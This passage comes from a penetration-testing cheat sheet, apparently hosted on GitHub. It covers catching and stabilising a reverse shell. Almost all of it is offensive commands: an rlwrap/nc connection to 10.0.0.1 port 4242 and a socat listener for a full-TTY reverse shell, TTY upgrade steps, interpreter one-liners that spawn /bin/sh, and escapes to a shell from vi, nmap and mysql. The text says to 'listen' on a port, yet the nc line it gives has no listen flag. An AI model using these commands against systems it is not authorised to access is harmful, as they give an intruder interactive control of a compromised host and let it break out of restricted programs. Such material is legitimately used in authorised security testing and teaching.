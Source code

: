 In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

    rlwrap nc 10.0.0.1 4242
    
    rlwrap -r -f . nc 10.0.0.1 4242
    -f . will make rlwrap use the current history file as a completion word list.
    -r Put all words seen on in- and output on the completion list.

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

⚠️ OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

    ctrl+z
    echo $TERM && tput lines && tput cols
    
    # for bash
    stty raw -echo
    fg
    
    # for zsh
    stty raw -echo; fg
    
    reset
    export SHELL=bash
    export TERM=xterm-256color
    stty rows <num> columns <cols>

or use `socat` binary to get a fully tty reverse shell

    socat file:`tty`,raw,echo=0 tcp-listen:12345

Spawn a TTY shell from an interpreter

    /bin/sh -i
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

## References

- [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
- [Pentest Monkey - Cheat Sheet Reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Spawning a TTY Shell](http://netsec.ws/?p=337)
- [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)